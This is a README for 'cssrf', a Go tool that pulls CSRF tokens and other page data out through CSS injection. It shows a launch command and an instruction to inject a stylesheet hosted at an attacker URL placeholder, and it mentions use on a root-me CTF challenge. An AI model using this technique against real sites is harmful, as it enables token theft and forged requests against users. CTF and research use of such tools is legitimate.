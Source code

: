 # cssrf

<div align=center>
<pre><code>
<b>Extract juicy information using CSS injection
<i>especially csrf token 🥜</i></b>
<br>
<sup>Basically the same thing as <i><a href=https://github.com/d0nutptr/sic>https://github.com/d0nutptr/sic</a></i> but in Golang
<br>I try my best to change the rust code but I lost so many time</sup>
</code></pre>
</div>

## Show me!

All you need is **launch** `cssrf`:
```shell
cssrf [flags] # nothing crazy => cssrf -h to get flags info
```

**Inject** `https://[ATTACKER_URL]/malicious.css` and **wait**:

![demo](https://github.com/ariary/cssrf/blob/main/cssrf.gif)

*This help me solving a [root-me](https://www.root-me.org/fr/Challenges/Web-Client/CSS-Exfiltration) challenge*

<sup>Posting solution is forbidden, thus the csrf token is not entire</sup>
